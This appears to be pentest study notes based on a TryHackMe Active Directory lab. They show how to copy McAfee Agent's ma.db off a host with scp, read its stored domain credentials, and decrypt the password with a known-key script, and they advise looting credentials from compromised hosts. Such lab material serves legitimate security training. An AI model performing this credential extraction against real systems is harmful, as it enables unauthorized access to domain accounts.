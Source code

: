
## General
Configuration files are used by applications to store various types of configuration information, such as settings, options, and parameters. These files may contain sensitive information, such as passwords, secrets, and credentials, which are used by the application to authenticate to other systems or services. If an attacker is able to access or modify the configuration files, they may be able to use this information to gain unauthorized access to the systems or services that the application is configured to connect to.

One way that configuration files can be exploited is by modifying the configuration options to include malicious parameters or values. For example, an attacker could modify a configuration file to include a malicious URL or command that is executed when the application is started. This could allow the attacker to execute arbitrary code or commands on the system, potentially leading to further compromise.

Another way that configuration files can be exploited is by extracting sensitive information from the files and using it to gain access to other systems or services. For example, an attacker could extract a password from a configuration file and use it to log in to a web application or server.


## Commands

Configuration File Credentials  

We will focus on recovering credentials from a centrally deployed application in this task. Usually, these applications need a method to authenticate to the domain during both the installation and execution phases.

Example
	MMcAfee Enterprise Endpoint Security, which organisations can use as the endpoint detection and response tool for security.  
	ㅤ
	McAfee embeds the credentials used during installation to connect back to the orchestrator in a file called ma.db. This database file can be retrieved and read with local access to the host to recover the associated AD service account. We will be using the SSH access on THMJMP1 again for this exercise.

Find a database in an application configuration (example ma.db)
```shell-session
thm@THMJMP1 C:\Users\THM>cd C:\ProgramData\McAfee\Agent\DB
thm@THMJMP1 C:\ProgramData\McAfee\Agent\DB>dir
 Volume in drive C is Windows 10
 Volume Serial Number is 6A0F-AA0F

 Directory of C:\ProgramData\McAfee\Agent\DB      

03/05/2022  10:03 AM    <DIR>          .
03/05/2022  10:03 AM    <DIR>          ..
03/05/2022  10:03 AM           120,832 ma.db      
               1 File(s)        120,832 bytes     
               2 Dir(s)  39,426,285,568 bytes free
```

Copy the file to the your attacking machine (SCP)
```shell-session
thm@thm:~/thm# scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
thm@10.200.4.249's password:
ma.db 100%  118KB 144.1KB/s   00:00
```

Read the database (SQLiteBrowser)
```shell-session
sqlitebrowser ma.db
```

Using sqlitebrowser, we will select the Browse Data option and focus on the AGENT_REPOSITORIES table:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/aeda85be24462cc6a3f0c03cd899053a.png)  

We are particularly interested in the second entry focusing on the DOMAIN, AUTH_USER, and AUTH_PASSWD field entries. Make a note of the values stored in these entries. However, the AUTH_PASSWD field is encrypted. Luckily, McAfee encrypts this field with a known key. Therefore, we will use the following old python2 script to decrypt the password.


===From here, it will be different depending on the database en the encryption the application is using. search on google if the encrypted key of this application has been leaked before and if some people on github has develop some script to exploit the encrypted password===


You will have to unzip the mcafee-sitelist-pwd-decryption.zip file:
```shell-session
unzip mcafeesitelistpwddecryption.zip
```
**Note: The tool we will use here is quite old. It uses Python v2 and relies on an old crypto library. If you cannot get the script to work on your own VM, please make use of the AttackBox.**  

By providing the script with our base64 encoded and encrypted password, the script will provide the decrypted password:
```shell-session
thm@thm:~/root/Rooms/BreachingAD/task7/mcafee-sitelist-pwd-decryption-master$ python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>
Crypted password   : <AUTH PASSWD VALUE>
Decrypted password : <Decrypted Pasword>
```

We now once again have a set of AD credentials that we can use for further enumeration! This is just one example of recovering credentials from configuration files. If you are ever able to gain a foothold on a host, make sure to follow a detailed and refined methodology to ensure that you recover all loot from the host, including credentials and other sensitive information that can be stored in configuration files.
